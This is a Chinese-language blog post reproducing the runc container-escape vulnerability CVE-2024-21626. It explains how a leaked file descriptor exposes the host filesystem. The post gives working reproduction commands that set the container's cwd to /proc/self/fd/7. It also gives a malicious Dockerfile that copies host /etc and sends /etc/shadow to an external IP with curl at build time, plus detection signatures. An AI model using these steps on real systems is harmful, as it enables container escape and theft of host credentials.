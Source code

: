 ```yaml
---
title: "CVE-2024-21626复现"
slug: "CVE-2024-21626"
description: "runc"
date: 2024-03-24T23:48:23+08:00
categories: ["CVE"]
series: ["容器逃逸"]
tags: ["docker", "escape"]
draft: false
toc: true
---
```


公告：[several container breakouts due to internally leaked fds](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)

影响范围：runc \>=v1.0.0-rc93,<=1.1.11

额外要求：linux内核版本大于5.6 (uname -r)

检查方式

![image-20240213163353866](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20240213163353866.png)

## runc

docker中的默认runtime是runc，它是基于OCI specification编写的一个容器底层运行时，可以手动替换为安全性更高、隔离性更强的gvisor(runc)，也是基于OCI规范 可以无缝切换

作为底层工具，当runc出现问题会影响docker和k8s

## 原理

`prepareOpenat2`函数会检查`openat2`这个syscall能否被正常调用，若失败 进入到`openFallback`，若成功 则用`unix.Openat2`系统调用打开`/sys/fs/cgroup`，这里的`unix.Openat2`是有`O_CLOEXEC`flag的

如果成功打开`/sys/fs/cgroup`，必然有一个fd指向该文件夹，但`prepareOpenat2`函数执行完之后并没有把这个fd正常关闭 也没有返回 导致泄露

利用思路：runc创建子进程时 && exec/run即将执行的二进制文件还没关闭之前，将process.cwd设置为`/proc/self/fd/7`，此时这个二进制进程的`/proc/[pid]/cwd`就会指向容器外的`/sys/fs/cgroup`，之后的子进程就可以利用该fd的`/proc/self/fd/[fdnum]`来访问宿主机的文件系统

至于最初为什么要检查`openat2`，是因为`openat(2)`可以避免在容器的mount命名空间中挂载宿主机文件系统的目录时存在逃逸的风险，但最终又引入了新的问题

## 复现

可以不使用完整docker 直接复现runc漏洞

```bash
# 将基本镜像导出rootfs
docker run --name helper-ctr alpine
docker export helper-ctr --output alpine.tar
mkdir rootfs
tar xf alpine.tar -C rootfs
# 使用runc命令创建默认配置文件
runc spec
# 修改运行时指定的cwd
sed -ri 's#(\s*"cwd": )"(/)"#\1 "/proc/self/fd/7"#g' config.json
grep cwd config.json
# exploit
sudo runc --log ./log.json run demo
```

![image-20240213174402355](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20240213174402355.png)

注意到我们把cwd指定为`/proc/self/fd/7`，这个数字和golang运行时有关

0, 1, 2分别是标准输入 标准输出和标准错误，3是日志文件，golang程序刚启动时会创建一个epoll文件描述符4和一个管道(5, 6)，接着初始化cgroup管理模块时打开`/sys/fs/cgroup`目录7

但在使用docker run创建的容器中 `/sys/fs/cgroup`的文件描述符是8，但有时也是7（详细原因暂略 看不懂）

另外一个细节是`--log`，如果不指定log参数 `/sys/fs/cgroup`目录的文件描述符就会是3，无法利用（原因略 看不懂）

## 利用

利用过程中的几条特征

- 在容器中产生cwd 形如`/proc/self/fd/[fd]`的进程
- 在容器中产生目标目录为`/proc/self/fd/[fd]`的`symlink(2)`或`symlinkat(2)`的系统调用
- 在容器中产生open/openat/openat2系统调用，且文件名有`/proc/\d+/cwd/.*` 的正则表达式特征

利用场景（主要针对云服务）：

- 制作恶意镜像 投毒公共库
- CI/CD平台控制work dir 导致漏洞

```
FROM ubuntu:latest
WORKDIR /proc/self/fd/7
RUN cp -r ../../../../../etc /hostetc
WORKDIR /
RUN apt update && apt-get install -y --no-install-recommends curl ca-certificates
RUN curl -XPOST --data-binary @/hostetc/shadow http://165.154.148.13:10399/
```

以上恶意镜像 在build阶段就可以把敏感文件带出 无需实际运行

![image-20240213212602227](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20240213212602227.png)

参考文章：https://github.com/NitroCao/CVE-2024-21626